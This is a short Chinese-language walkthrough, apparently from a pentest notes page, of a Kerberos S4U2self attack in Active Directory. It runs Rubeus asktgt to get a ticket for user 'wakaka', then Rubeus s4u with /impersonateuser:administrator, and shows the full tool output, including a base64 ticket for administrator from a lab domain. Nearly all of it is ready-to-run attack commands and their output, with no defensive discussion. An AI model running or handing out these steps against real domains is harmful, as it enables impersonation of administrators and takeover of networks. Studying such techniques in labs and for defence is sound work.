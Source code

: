 https://github.com/GhostPack/Rubeus?tab=readme-ov-file#s4u

使用asktgt获得wakaka用户TGT

```bash
Rubeus.exe asktgt /user:wakaka /password:xxxxx /domain:sunset.com /outfile:ticket.kirbi
```

通过`S4Uself`伪造administrator向wakaka请求，获得administrator的TGS

```bash
Rubeus.exe s4u /user:wakaka /ticket:ticket.kirbi /impersonateuser:administrator
   ______        _                      
  (_____ \      | |                     
   _____) )_   _| |__  _____ _   _  ___ 
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.3.2 

[*] Action: S4U

[*] Action: S4U

[*] Building S4U2self request for: 'wakaka@SUNSET.COM'
[*] Using domain controller: DC.sunset.com (192.168.111.167)
[*] Sending S4U2self request to 192.168.111.167:88
[+] S4U2self success!
[*] Got a TGS for 'administrator' to 'wakaka@SUNSET.COM'
[*] base64(ticket.kirbi):

      doIFNDCCBTCgAwIBBaEDAgEWooIEVjCCBFJhggROMIIESqADAgEFoQwbClNVTlNFVC5DT02iEzARoAMC
      AQGhCjAIGwZ3YWtha2GjggQeMIIEGqADAgEXoQMCAQKiggQMBIIECJMQBPsrbWB5s64loExC6tsgKS62
      FOSZVugqn0b+Ja/2d+KI4SpCDiFBzIkIboR4SYH/+1RM0L+L4MQgJS5jpJkYT6XmPaMROiE2CMc2zyv4
      lBfMZPlF2hATJxIJ9jXVfiD0k2XWytLzZLaaC+IJHSueW6YS9yMGcYLRD4F1BJ72W7QEye26eMJwE3uv
      hjppplkxdtIdQAUIwMqwDAPj9M9VLc7yOngOCLnPxHCfigMMvDBnANmP6fD1zpRmsbeTA7ZW0kNfnJv1
      4+N2UseUJGL7k/7BUIIZy5rfNZk3AsqBT13gbBUcfZBpxaNzY/Gq6BkhmZuejiImf2ZnLovJHIU6CCvq
      zm1yP12aV/RqEucwmSWu+UKvOQlGzITey2dcRp5/jffkvDvjKyuyDFZsgBjS3Mnc6g+SF0NFtPykJQ9S
      SpOtxNrMMbrqPhRUC02qMaDI/Obox3SdRZr2bPPFom+KtPTTy9i8kzalCgEUAGTfU7PUm7gxOtE9G4OL
      G9f8FK9jiPdrB4AF2gYSbK4JOF6HKUgrPZdu0kgs+uxyWL7DjXIkGjvT4wg0B3/+J13RGz4fmd1kfkCB
      goIpPn3PtN/bdrP8Grwbg34/aWc+CvZadlWcBqsYDOUItL8VXL7K4SUobkVlAVpSTYBuvUAi3mvX0fSh
      JZSFz0moRKUDYwuIAxboHE4EYBDUJB0onCecFUWXOJ8sDCLJcQ0x9kcS6iTzaTepf57WZGPYjSDFs15v
      3PPsLNoAGSxr9VWXkDwZbVi8iDDIkmzCeMRr9nvVQ5VJJg+DF1k2pvuxIJA8SGznxAEI2cuxqzAia1eH
      4KB5o0YcSkSrcni8sIVMuPhMqWsgApngL/ZMs/NCwGbc2ZhzksPjeGTICo5bKiIwLVt4rdl5jkiikFYa
      2YWV2/aWqZsIknNQWsuC0Oie7UCZJrWfwLdav58JSuWxMhM23cFxR3bH3tFfjwRZWZx7JG4NGmKpCO+i
      uaD8/DNUxYw4Y2yBJrY79Gcdfuwuhzd4kXUATiqXoA88gIsNIbsFQ1mmdmIz4dtDDUGXcJFJ09wvzmT0
      95uLQSQJTJbpyRr9mGzlpHICQFSHaenw4m7m9Tf/nPQ51rAI+lo4WvKqnBvtLSFi//0GQZEiEKN1+7AJ
      B0ktX4ak5NRwNP1OUyLax2Zv5ei+E763S7Zw7hlhMG+3Uquxyk4pn/EGA7LtRT7jz5gqvAhb8eIE37v2
      2gGAgh1NDL4dYjU9gUMtDUTA0yDZEgSC9WKof91pzqbEE/ZCmX41++0NNde8pXXhHNGetTfbTHslOxyP
      VCuKNwRtdlBD11DQLTd/R0HKVsysG2vLBzKfiVkJSXCHOwFDa+oOHzWFUQnZ3B70oMAEyaOByTCBxqAD
      AgEAooG+BIG7fYG4MIG1oIGyMIGvMIGsoBswGaADAgEXoRIEEESMbWs9/qolsG0M71JnzZ2hDBsKU1VO
      U0VULkNPTaIaMBigAwIBCqERMA8bDWFkbWluaXN0cmF0b3KjBwMFAEChAAClERgPMjAyNTAzMDIwNjM3
      NTFaphEYDzIwMjUwMzAyMTYzMzAyWqcRGA8yMDI1MDMwOTA2MzMwMlqoDBsKU1VOU0VULkNPTakTMBGg
      AwIBAaEKMAgbBndha2FrYQ==

```
